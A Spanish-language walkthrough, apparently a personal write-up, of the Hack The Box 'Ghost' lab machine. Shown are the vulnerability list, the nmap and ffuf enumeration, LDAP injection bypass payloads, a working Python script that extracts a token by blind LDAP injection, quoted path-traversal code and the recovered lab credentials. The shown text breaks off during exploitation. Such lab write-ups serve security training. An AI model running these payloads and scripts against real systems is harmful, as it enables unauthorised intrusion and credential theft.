___
Tags: #insane #htb
___
# Ghost

## Información General

**- Dificultad:** Insane <br>
**- Sistema operativo:** Windows <br>
**- Fecha de resolución:** 5/08/2026 <br>
**- Enlace:** [Ghost](https://app.hackthebox.com/machines/Ghost) <br>

## Listado de Vulnerabilidades Identificadas

1. **Inyección LDAP y Bypass de Autenticación (Intranet Web)**
    
    - **Descripción:** La aplicación web Next.js no sanitizaba los caracteres especiales suministrados en los parámetros de inicio de sesión (`1_ldap-username` y `1_ldap-secret`).
        
    - **Impacto:** Permitió la elusión del mecanismo de autenticación utilizando comodines (`*`) y la posterior extracción ciega carácter por carácter del token del usuario `gitea_temp_principal` mediante la interpretación de respuestas HTTP 303.
        
2. **Salto de Directorio / Lectura Arbitraria de Archivos (Path Traversal en Ghost CMS)**
    
    - **Descripción:** El parámetro `extra` en la API del blog no validaba las secuencias de escape de rutas (`../../../../`).
        
    - **Impacto:** Permitió la exfiltración de variables de entorno del proceso Node.js (`/proc/self/environ`), exponiendo la clave secreta de autenticación interna `DEV_INTRANET_KEY`.
        
3. **Inyección de Comandos del Sistema Operativo (RCE en Backend Rust)**
    
    - **Descripción:** El endpoint `/api-dev/scan` concatenaba directamente la entrada del parámetro JSON `url` dentro de una instrucción invocada por `bash -c` sin filtrado previo.
        
    - **Impacto:** Permitió la ejecución remota de código con privilegios elevados dentro del contenedor Docker objetivo.
        
4. **Configuración Insegura de Multiplexación SSH (SSH ControlMaster Hijacking)**
    
    - **Descripción:** Permisos inadecuados en el directorio `/root/.ssh/controlmaster/` donde se alojaban los sockets activos de conexiones SSH.
        
    - **Impacto:** Permitió la reutilización del socket maestro del usuario `florence.ramirez@ghost.htb` para acceder a la estación `LINUX-DEV-WS01` sin requerir credenciales ni clave privada.
        
5. **Permisos Permisivos de Creación de Registros DNS en Active Directory (DNS Shadowing)**
    
    - **Descripción:** La configuración por defecto en **ADIDNS** permitía a cualquier usuario autenticado del dominio agregar registros DNS en las zonas del Active Directory.
        
    - **Impacto:** Se creó un registro A malicioso (`bitbucket.ghost.htb`) apuntando a la máquina atacante para interceptar y capturar el hash de autenticación NetNTLMv2 del usuario `justin.bradley`.
        
6. **Permiso Delegado Excesivo de Lectura sobre Cuentas gMSA (`ReadGMSAPassword`)**
    
    - **Descripción:** El usuario `justin.bradley` contaba con derechos explícitos para consultar los atributos de contraseña en texto plano/hash NTLM de la cuenta de servicio administrada de grupo `adfs_gmsa$`.
        
    - **Impacto:** Compromiso de la cuenta de servicio ADFS mediante consulta LDAP.
        
7. **Ataque Golden SAML (Abuso del Mecanismo de Firma de ADFS)**
    
    - **Descripción:** Exposición del certificado y clave privada de firma de tokens del servidor ADFS, accesible por la cuenta `adfs_gmsa$`.
        
    - **Impacto:** Permitió la falsificación de aserciones SAML (`SAMLResponse`) arbitrarias signed digitalmente como `Administrator@ghost.htb`, logrando acceso administrativo directo al portal `core.ghost.htb`.
        
8. **Abuso de Servidores Vinculados y Ejecución de Comandos en MS SQL Server (Linked Servers & `xp_cmdshell`)**
    
    - **Descripción:** Configuración permisiva de servidores vinculados (`DC01` a `PRIMARY`) combinada con la suplantación del usuario con privilegios de superusuario (`sa`).
        
    - **Impacto:** Activación y ejecución del procedimiento almacenado `xp_cmdshell` en el servidor remoto `PRIMARY`, logrando ejecución remota de comandos en el sistema operativo subyacente.
        
9. **Asignación Insegura del Privilegio `SeImpersonatePrivilege` (Abuso de Tokens de Windows)**
    
    - **Descripción:** La cuenta de servicio `mssqlserver` disponía del privilegio `SeImpersonatePrivilege` activado en el sistema operativo Windows Server.
        
    - **Impacto:** Elevación local de privilegios a `NT AUTHORITY\SYSTEM` / `Administrador` mediante la explotación del servicio de archivos EFS (`EfsPotato`).
    
10. **Generación de Golden Ticket en Kerberos (Compromiso Absoluto del Dominio)**

- **Descripción:** Tras comprometer el Controlador de Dominio principal (`DC01`) y el servicio LSA/NTDS.dit, se extrajo la clave de cifrado/hash NTLM de la cuenta especial `krbtgt`.
    
- **Impacto:** Permitió la forja de un **Golden Ticket** (TGT firmado de Kerberos) con permisos arbitrarios de `Domain Admin` y validez prolongada, garantizando la persistencia total y el acceso irrestricto a cualquier recurso o máquina dentro de la infraestructura del dominio `GHOST.HTB`
## Reconocimiento

**HTB** nos proporciona la ip de la máquina objetivo **10.129.231.105**
### Ping

```
ping -c 1 10.129.231.105
```

**Su ttl es 128 es Window**

## Enumeración

### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```

```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-03 15:49:13Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghost.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
443/tcp  open  https?
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghost.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info: 
|   10.129.231.105:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.231.105:1433: 
|     Target_Name: GHOST
|     NetBIOS_Domain_Name: GHOST
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: ghost.htb
|     DNS_Computer_Name: DC01.ghost.htb
|     DNS_Tree_Name: ghost.htb
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-08-03T15:44:53
|_Not valid after:  2056-08-03T15:44:53
|_ssl-date: 2026-08-03T15:50:44+00:00; -20s from scanner time.
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghost.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghost.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-08-03T15:50:44+00:00; -20s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: GHOST
|   NetBIOS_Domain_Name: GHOST
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: ghost.htb
|   DNS_Computer_Name: DC01.ghost.htb
|   DNS_Tree_Name: ghost.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2026-08-03T15:50:00+00:00
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Not valid before: 2026-08-02T15:41:50
|_Not valid after:  2027-02-01T15:41:50
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8008/tcp open  http          nginx 1.18.0 (Ubuntu)
|_http-title: Ghost
|_http-generator: Ghost 5.78
| http-robots.txt: 5 disallowed entries 
|_/ghost/ /p/ /email/ /r/ /webmentions/receive/
|_http-server-header: nginx/1.18.0 (Ubuntu)
8443/tcp open  ssl/http      nginx 1.18.0 (Ubuntu)
| http-title: Ghost Core
|_Requested resource was /login
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=core.ghost.htb
| Subject Alternative Name: DNS:core.ghost.htb
| Not valid before: 2024-06-18T15:14:02
|_Not valid after:  2124-05-25T15:14:02
```

- Controlador de dominio estándar de Windows: **DNS** (53), **Kerberos** (88), **RPC** (135), **NetBios** (139), **LDAP** (389, 3269), **LDAPS** (636, 3269), **SMB** (445)
- Servidores web: **HTTP** (80, 8008), **HTTPS** (443, 8443) **MSSQL** (1433)
- Los encabezados del servidor en **TCP 8008** sugieren un servidor **Ubuntu**, lo cual es interesante. El equipo filtra el nombre de dominio ghost.htb y el nombre de host DC01.

El pentesting filtra el nombre de dominio **ghost.htb** y el nombre de host **DC01**. Los agregaré a mi archivo hosts:

```
10.129.231.105    DC01 DC01.ghost.htb ghost.htb
```

El penetrador visitó `http://10.129.231.105:8008/robots.txt` se encontró la única ruta habilitada:

```
http://10.129.231.105:8008/ghost
```

<p align="center">

</p>

pero no se encontró forma de acceder :(

### Enumeración web - intranet

```
ffuf -u http://ghost.htb:8008 -H "Host: FUZZ.ghost.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc all -ac
```

> intranet

Añadimos este nuevo vhost al fichero **/etc/hosts/**

```
10.129.231.105    DC01 DC01.ghost.htb ghost.htb intranet.ghost.htb
```

### HTTPS - TCP 8443

Navego a `https://ghost.htb:8443/login` eso me dará el siguiente apartado:

<p align="center">

</p>

Este apartado me dirigirá a un nuevo vhost **federation**, por tanto el fichero `/etc/hosts` nos quedaría así:

```
10.129.231.105    DC01 DC01.ghost.htb ghost.htb intranet.ghost.htb federation.ghost.htb
```

Se visualizaría lo siguiente:

<p align="center">

</p>

## Explotación

### Navegado en intranet.ghost.htb

Nos encontramos el siguiente Login, se rellena los campos de **username** y **secret** con datos random.

<p align="center">

</p>

Se intercepta con **burpsuite**, en el **request** nos aparece lo siguiente:

```
POST /login HTTP/1.1
Host: intranet.ghost.htb:8008
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/x-component
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://intranet.ghost.htb:8008/login
Next-Action: c471eb076ccac91d6f828b671795550fd5925940
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22login%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Content-Type: multipart/form-data; boundary=----geckoformboundary72dda7cec5c8383ac86a98d137e36dbf
Content-Length: 954
Origin: http://intranet.ghost.htb:8008
Connection: keep-alive
Priority: u=0

------geckoformboundary72dda7cec5c8383ac86a98d137e36dbf
Content-Disposition: form-data; name="1_$ACTION_REF_1"


------geckoformboundary72dda7cec5c8383ac86a98d137e36dbf
Content-Disposition: form-data; name="1_$ACTION_1:0"

{"id":"c471eb076ccac91d6f828b671795550fd5925940","bound":"$@1"}
------geckoformboundary72dda7cec5c8383ac86a98d137e36dbf
Content-Disposition: form-data; name="1_$ACTION_1:1"

[{}]
------geckoformboundary72dda7cec5c8383ac86a98d137e36dbf
Content-Disposition: form-data; name="1_$ACTION_KEY"

k2982904007
------geckoformboundary72dda7cec5c8383ac86a98d137e36dbf
Content-Disposition: form-data; name="1_ldap-username"

hello
------geckoformboundary72dda7cec5c8383ac86a98d137e36dbf
Content-Disposition: form-data; name="1_ldap-secret"

hello
------geckoformboundary72dda7cec5c8383ac86a98d137e36dbf
Content-Disposition: form-data; name="0"

[{},"$K1"]
------geckoformboundary72dda7cec5c8383ac86a98d137e36dbf--
```

#### Vulnerabilidad de Inyección LDAP

Durante la fase de análisis de tráfico y prueba de componentes web, se identificó una solicitud HTTP POST orientada a la autenticación contra un servicio de directorio LDAP (_Lightweight Directory Access Protocol_). Los parámetros observados en la petición (`1_ldap-username` y `1_ldap-secret`) indican que la aplicación consume internamente una interfaz LDAP para validar las credenciales de acceso.

La vulnerabilidad de **Inyección LDAP** ocurre cuando la aplicación web concatena directamente las entradas introducidas por el usuario dentro de los filtros de búsqueda del servidor LDAP, sin realizar una adecuada sanitización o codificación de caracteres especiales.

#### Bypass de Autenticación

- **Uso de Comodines (`*`):** Al suministrar el carácter `*` en el parámetro `1_ldap-username`, el filtro interpretará la condición como "cualquier usuario existente en la base de datos".

- **Manipulación Lógica:** Si además se inyectan sintaxis de cierre de filtro (como `*)(uid=*))(|(uid=*`), es posible alterar la lógica booleana de la consulta para forzar que el directorio devuelva un resultado afirmativo, omitiendo la validación de la contraseña (`1_ldap-secret`).

Una vez explicado la vulnerabilidad llevaremos a cabo la explotación en los campos `1_ldap-username` y `1_ldap-secret` se colocará `*` en el **request**:

<p align="center">

</p>

En el response:

<p align="center">

</p>

Se comprueba que se ha conseguido entrar dentro de **intranet.ghost.htb** por **Bypass de Autenticación**

<p align="center">

</p>

En el apartado **news** me encuentro lo siguiente: 

<p align="center">

</p>

Básicamente nos comenta que **Bitbucket** ha migrado a **Gitea**. Se comenta también que solo se puede iniciar sesión con la cuenta `gitea_temp_principal` y su token de intranet correspondiente como contraseña. Por seguridad no comenta la contraseña. Además, se comenta para los administradores de sistemas: Busque el atributo en LDAP. Termina comentando que se deberá usar un token secreto en lugar de su contraseña de dominio.

Por tanto, en el fichero `/etc/hosts` se añade **gitea**

```
10.129.231.105    DC01 DC01.ghost.htb ghost.htb intranet.ghost.htb federation.ghost.htb gitea.ghost.htb Bitbucket.ghost.htb
```

En el apartado **Users** nos encontramos con los siguientes usuarios:

<p align="center">

</p>

En el apartado **Forum** nos encontramos con los siguientes comentarios de usuarios:

<p align="center">

</p>

```
Estamos migrando las publicaciones de la antigua intranet. Actualmente no puedes publicar ni responder, ¡pero pronto podrás!

No se puede conectar a BitBucket
Hola a todos, intenté conectarme a bitbucket.ghost.htb, pero no funciona. ¿Alguna idea de por qué? Tengo un script que verifica los resultados del pipeline y funciona en Gitea. Intenté adaptarlo a Bitbucket y funciona localmente, pero no puedo probarlo en nuestros servidores.
Autor: justin.bradley
Respuestas:

kathryn.holland:

Hola Justin, la migración aún no está lista, por lo que la entrada DNS no está configurada. No debería tardar mucho, así que puedes seguir ejecutando el script.

Triunfo del equipo: Nuestro reciente avance en la investigación paranormal
¡Noticias emocionantes! Nuestra reciente investigación ha dado lugar a un gran avance en la investigación paranormal. Consulta nuestra última publicación del blog para descubrir los detalles de este importante hito. ¡El trabajo en equipo hace que los sueños se hagan realidad!
Autor: beth.clark
Respuestas:

robert.steeves: 

¡Genial! ¿Viene con un aumento de sueldo? :)

beth.clark:

No

robert.steeves:

:(

Serie Destacados: Investigador del Mes

En nuestra nueva Serie Destacados, presentaremos el excepcional trabajo de nuestros investigadores. Este mes, descubre las experiencias y perspectivas de Kristen Rose, quien desempeñó un papel fundamental en nuestra reciente investigación exitosa. ¡Aprende de su experiencia e inspírate!

Autor: jason.taylor

Respuestas:

robert.steeves:

¡Felicidades!
```

### Navengado en gitea.ghost.htb

Antes de navegar en esta pagina necesito en primer lugar averiguar la contraseña del usuario `gitea_temp_principal`.

#### Explotación de LDAP Injection ciega — Cuenta "gitea_temp_principal"

El usuario detectó una vulnerabilidad de inyección LDAP en el formulario de login de la intranet. Se sabía que la cuenta `gitea_temp_principal` no usaba una contraseña normal, sino un token secreto guardado en un atributo especial de LDAP.

**Primer obstáculo:** al intentar automatizar el ataque con peticiones `POST` normales (tipo JSON), el servidor siempre devolvía la página de login sin más, como si la petición no se hubiera procesado. Esto se debía a que la web estaba hecha con Next.js, una tecnología que no usa un login "clásico", sino un mecanismo especial (Server Actions) que requiere una petición con un formato muy concreto para que el servidor la reconozca como un intento de login real.

**Solución:** capturando el tráfico real del navegador al iniciar sesión manualmente, se pudo ver exactamente cómo debía ir formada la petición: con una cabecera especial (`Next-Action`), un formato distinto al habitual (`multipart/form-data`), y nombres de campo propios de la aplicación (`1_ldap-username` y `1_ldap-secret`) en lugar de los típicos `username`/`password`.

**Descubrimiento clave:** al probar añadiendo un asterisco (`*`) al final del valor de la contraseña, se observó que el servidor respondía de forma distinta (código `303`) cuando el texto introducido coincidía con el principio real de la contraseña, y de forma distinta cuando no coincidía. Esto permitió usar el `*` como una especie de "comodín" para ir adivinando la contraseña por partes, sin necesidad de conocerla.

**Resultado:** con esta información, se creó un script que prueba carácter por carácter, añadiendo cada letra/número posible al final de lo ya descubierto. Cuando el servidor responde `303`, significa que ese carácter es correcto y se guarda; así, letra a letra, se reconstruye la contraseña completa de la cuenta sin tener que saberla de antemano.

```
import requests
import string
import sys


headers = {"Next-Action": "c471eb076ccac91d6f828b671795550fd5925940"}
username = sys.argv[1] if len(sys.argv) > 1 else "gitea_temp_principal"
password = ""
while True:
    for c in string.printable[:-5]:
        print(f"\rPassword for {username}: {password}{c}", end="")
        files = {
            "1_ldap-username": (None, username),
            "1_ldap-secret": (None, f"{password}{c}*"),
            "0": (None, '[{},"$K1"]'),
        }

        resp = requests.post(
            'http://intranet.ghost.htb:8008/login',
            headers=headers,
            files=files,
        )
        if resp.status_code == 303:
            password += c
            break
    else:
        print()
        break
```

Credenciales **gitea_temp_principal**:**szrr8kpc3z6onlqf**

Se navega a `http://gitea.ghost.htb:8008/` e introducimos las credenciales. Se investiga la pagina y se encuentran estos repositorios interesante.

<p align="center">

</p>

#### Descubrimiento de la Clave en `ghost-dev / intranet`

> El primer objetivo era obtener la clave de autenticación compartida entre el blog y la intranet.

**Análisis del Repositorio y Código Modificado:** Al comparar el archivo `posts-public.js` de **ghost-dev / blog**  de la aplicación con la versión estándar de **Ghost CMS**, se identificó una modificación personalizada. El código aceptaba un parámetro adicional (`extra`) en las peticiones GET a la API del blog:

<p align="center">

</p>

```
const extra = frame.original.query?.extra; if (extra) { if (fs.existsSync(extra)) { const fileContent = fs.readFileSync("/var/lib/ghost/extra/" + extra, { encoding: "utf8" }); posts.meta.extra = { [extra]: fileContent }; } }
```

Puesto que el parámetro `extra` no sanitizaba la ruta de entrada, permitía concatenar secuencias de salto de directorio (`../../../../`).

**Exfiltración de Variables de Entorno:** Usando la clave pública del API de Ghost (`a5af628828958c976a3b6cc81a`) encontrada en el `README.md`, se aprovechó el _Path Traversal_ para leer el archivo `/proc/self/environ` del proceso Node.js:

<p align="center">
